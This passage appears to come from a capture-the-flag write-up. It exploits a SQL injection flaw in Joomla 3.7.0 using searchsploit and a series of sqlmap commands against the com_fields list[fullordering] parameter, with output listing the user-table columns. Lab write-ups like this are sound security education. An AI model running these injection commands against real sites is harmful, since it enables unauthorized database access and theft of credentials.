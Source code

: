 ![](/assets/img/writeup_assets/daily-bugle/login-page.png)

As per the [Joomla Documentation](https://docs.joomla.org/Administrator_(User)):
> The default Super Users is admin and is installed with every Joomla! site.

Yet another quick search through searchsploit gives us a nice exploit for SQLi on joomla 3.7.0:
```shell-session
$ searchsploit Joomla 3.7.0
$ searchsploit -p php/webapps/42033.txt
...
$ cp /usr/share/exploitdb/exploits/php/webapps/42033.txt .
```

Reading through this exploit, we find that it gives us a nice `sqlmap` command:
```shell-session
$ sqlmap -u "http://localhost/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
```

By adding the `--tables` and `-D joomla` flags, we can specify that we wanna try and understand the tables of the database first, and what kind of database to attack.
```shell-session
$ sqlmap -u "http://TARGET_IP/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs --tables -p list[fullordering] -D joomla
```

This gives us a total of 72 tables to work with, most are not very useful, however, one of the ones we can use is the `__users` table:
```shell-session
$ sqlmap -u "http://TARGET_IP/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs --columns -p list[fullordering] -D joomla -T '#__users'

...
do you want to use common column existence check? [y/N/q] y
...
[00:08:34] [INFO] retrieved: id
[00:08:34] [INFO] retrieved: name
[00:08:35] [INFO] retrieved: username
[00:08:39] [INFO] retrieved: email
[00:09:20] [INFO] retrieved: password
...
```